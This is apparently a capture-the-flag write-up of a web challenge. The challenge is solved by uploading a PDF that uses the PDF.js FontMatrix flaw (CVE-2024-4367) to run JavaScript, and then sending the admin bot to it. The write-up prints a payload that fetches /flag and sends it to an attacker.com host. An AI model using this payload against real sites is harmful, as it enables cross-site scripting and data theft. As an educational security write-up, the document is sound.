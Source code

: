 
# 🚀 **Mysterious File Upload Journey: Breaking PDF.js and Grabbing the Flag**

![Challenge Banner](https://via.placeholder.com/1200x400.png?text=Mysterious+File+Upload+Journey)

### **Challenge Information**
- **Name:** Navigate a Mysterious File Upload Journey  
- **Challenge URL:** [http://172.206.89.197:9000/](http://172.206.89.197:9000/)  
- **Bot URL:** [http://172.206.89.197:9000/report](http://172.206.89.197:9000/report)  
- **Attachment:** [upload.zip](./upload.zip)  
- **Author:** [@S0nG0ku](https://twitter.com/s0ng0ku)  

---

## **📖 Introduction**
This writeup details how we explored a file upload challenge to bypass security filters and extract a flag from a restricted endpoint. Here's how the adventure unfolded:

1. Register on the platform.
2. Analyze the upload feature.
3. Exploit PDF.js to execute arbitrary JavaScript.
4. Retrieve the flag using the admin bot.

---

## **🕵️ Recon and Discovery**

### **1️⃣ Homepage**
The homepage presents a **login/register** feature and a basic upload interface.

![Homepage Screenshot](https://media1.tenor.com/m/54mjjpuowCgAAAAd/ninjala-jane.gif)

### **2️⃣ Upload Feature**
Upon logging in, we access the **upload form**. The filter applied here is based only on **MIME type** validation, making it susceptible to tampering.

```html
<!-- Upload Filter in Source Code -->
if (file.mimeType === 'application/pdf') {
    // Allow upload
}
```

This weakness invites further exploration, but before rushing into bypasses, we check additional features.

---

## **⚙️ Understanding the Bot**
- **Behavior:** The admin bot visits **local URLs** shared through the application, verified using a **regex filter**.  
- **Access Scope:** The bot has privileged access to the `/flag` endpoint, which is restricted to **local IPs only (127.0.0.1)**.

---

## **💡 The Exploit Plan**
To retrieve the flag, we'll use the following approach:

1. **Upload a malicious PDF** containing JavaScript to access `/flag` and send its content to our external server.  
2. **Send the bot a link** to the malicious PDF file hosted on the challenge server.  
3. The bot will execute our JavaScript and exfiltrate the flag to us.

---

## **📜 Crafting the Malicious PDF**
The platform uses **PDF.js** for rendering uploaded PDF files. A known vulnerability, **CVE-2024-4367**, allows **arbitrary JavaScript execution** through the `FontMatrix` attribute.

### **Vulnerability Exploit**
The payload injects JavaScript by escaping parentheses in the `FontMatrix` field:
```javascript
/FontMatrix [1 2 3 4 5 (0\); fetch('/flag')
    .then(r => r.text())
    .then(f => location='https://attacker.com/?flag=' + encodeURIComponent(f))]
```

### **Steps to Create the PDF**
1. Use a PDF generation tool (e.g., [PDFEdit](https://pdfedit.cz/) or Python libraries like `fpdf`) to embed the exploit.
2. Ensure all parentheses are escaped to prevent premature interpretation.

---

## **🖥️ Exploiting the Bot**
1. Upload the malicious PDF file.
2. Grab the file's URL and modify it to point to `127.0.0.1:5000/view/<filename>` for local bot access.
3. Send the URL to the bot via the provided reporting feature.

```plaintext
POST /report
Content-Type: application/json

{
    "url": "http://127.0.0.1:5000/view/malicious.pdf"
}
```

4. Wait for the bot to visit the URL and execute the JavaScript.

---

## **🏁 Retrieving the Flag**
Once the bot executes the script, it fetches the flag from `/flag` and sends it to our server:
```javascript
fetch('/flag')
    .then(response => response.text())
    .then(flag => {
        location = `https://attacker.com/?flag=${encodeURIComponent(flag)}`;
    });
```

The flag will appear in your server logs, and in this case, it's:

```plaintext
AKASEC{PDF_1s_4w3s0m3_W1th_XSS_&&_Fr33_P4le5T1n3_r0t4t333d_loooool}
```

---

## **🎯 Key Takeaways**
1. **MIME Type Filters:** Always validate files using deeper inspection (e.g., content-based validation).
2. **Bot Exploits:** Bots with local access should have strict sandboxing to prevent malicious exploitation.
3. **PDF.js Vulnerabilities:** Always use the latest versions of libraries to patch known vulnerabilities.

---

## **📚 Resources**
- [PDF.js Documentation](https://mozilla.github.io/pdf.js/)
- [CVE-2024-4367 Details](https://cve.mitre.org/)
- [PDF Injection with JavaScript](https://codeanlabs.com/pdf-js-injection)
- [File Upload Security Best Practices](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

---

## **🌈 Bonus: Make It Your Own!**
You can use this approach in Capture The Flag (CTF) competitions or educational scenarios to practice:
- **File upload bypass techniques.**
- **Exploiting vulnerable libraries.**
- **Exfiltration using JavaScript payloads.**

> **Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before performing any security testing.

---
